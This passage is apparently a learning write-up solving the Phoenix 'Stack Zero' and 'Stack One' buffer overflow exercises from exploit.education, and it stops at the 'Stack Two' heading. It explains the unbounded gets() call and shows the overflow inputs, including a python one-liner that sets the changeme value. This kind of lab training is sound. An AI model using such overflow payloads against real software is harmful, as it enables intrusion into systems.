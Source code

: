 # Stack overflow

There is multiple way of controlling the flow of a program, by overriding some part of the memory. In this section we will focus on stack memory overflow.

For those examples, you will need to install Phoenix: https://exploit.education/phoenix/getting-started/

## Stack Zero

### Exercise

Description: https://exploit.education/phoenix/stack-zero/

### Solution

`gets` function does not limit the buffer size, causing a possible overflow if the provided input is larger than the buffer size.

The goal here is to send a content to fill the buffer, and override the `changeme` variable that is located next to the end of the `buffer` in the stack.

```
$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Well done, the 'changeme' variable has been changed!
```

## Stack One

### Exercise

Description: https://exploit.education/phoenix/stack-one/

### Solution

The solution is similar to the previous exercise, but we have to control the value we assign to the variable `changeme`.

```
$ ./stack-one HELLO
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

$ ./stack-one `python -c 'print ("A"*64)+"\x62\x59\x6c\x49" '`
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack Two
